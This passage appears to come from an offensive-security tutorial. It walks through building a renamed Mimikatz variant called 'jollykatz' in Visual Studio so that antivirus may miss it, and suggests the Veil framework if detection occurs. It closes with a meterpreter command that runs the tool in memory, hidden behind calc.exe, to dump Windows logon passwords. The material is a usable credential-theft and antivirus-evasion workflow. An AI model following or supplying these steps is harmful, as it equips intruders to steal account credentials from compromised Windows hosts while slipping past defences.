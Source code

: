 - In the "Solution Explorer" window on the right, expand "global files" -> "lib" -> right-click on "Win32" and select "Add" -> "Existing Item"
- Choose "C:\\jollykatz\\jollykatz-master\\lib\\Win32\\EncodePointer.lib"
- In the "Solution Explorer" window on the right, expand "global files" -> "lib" -> right-click on "x64" and select "Add" -> "Existing Item"
- Choose "C:\\jollykatz\\jollykatz-master\\lib\\x64\\EncodePointer.lib"

- In the "Solution Explorer" window on the right, right-click on "jollykatz" (might have to scroll to bottom) and select "Properties"
- Expand "Configuration Properties" -> "General" -> Set "Use of MFC" to "Use Standard Windows Libraries"
- Click "Apply" in the bottom
- Expand "Configuration Properties" -> "C/C++" -> "Code Generation" -> Set "Runtime Library" to "Multi-threaded (/MT)"
- Click "Apply" in the bottom
- Expand "Configuration Properties" -> "Linker" -> "Input" -> Add "EncodePointer.lib;" at the start of "Additional Dependencies" (in front of "advapi32.lib")
- Click "OK" in the bottom

- In the top menu bar, click "Build" -> "Rebuild Solution"

NOTE: You should see "Rebuild All: 3 succeeded, 0 failed, 0 up-to-date, 0 skipped"

NOTE: This means that the 32-bit build succeeded!

- In the top bar, next to "Release", change "Win32" to "x64"
- In the top menu bar, click "Build" -> "Rebuild Solution"

NOTE: You should see "Rebuild All: 3 succeeded, 0 failed, 0 up-to-date, 0 skipped"

NOTE: This means that the 64-bit build succeeded!

NOTE: You should now see 5 files in the C:\\jollykatz\\jollykatz-master\\Win32\\ directory, of which you will need 3:

- jollykatz.exe
- jollylib.dll
- jollydrv.sys

NOTE: You should see the same file structure in the C:\\jollykatz\\jollykatz-master\\x64\\ directory

Copy and rename C:\\jollykatz\\jollykatz-master\\Win32\\jollykatz.exe to C:\\jollykatz\\jollykatz32.exe

Copy and rename C:\\jollykatz\\jollykatz-master\\x64\\jollykatz.exe to C:\\jollykatz\\jollykatz64.exe

NOTE: Typically, you only need jollykatz.exe, the driver (jollydrv.sys) and library (jollylib.dll) files are optional. If you need the drivers, copy and rename them as well.

NOTE: Hopefully, your antivirus won't pick up on the new jollykatz.exe files. If it does, you'll need to modify some code. Or use the Veil framework.

#### Run Mimikatz from memory through meterpreter (advisable):

{% highlight shell-session %}
execute -H -i -c -m -d calc.exe -f jollykatz.exe -a '"privilege::debug" "sekurlsa::logonPasswords full" "exit"'
{% endhighlight %}
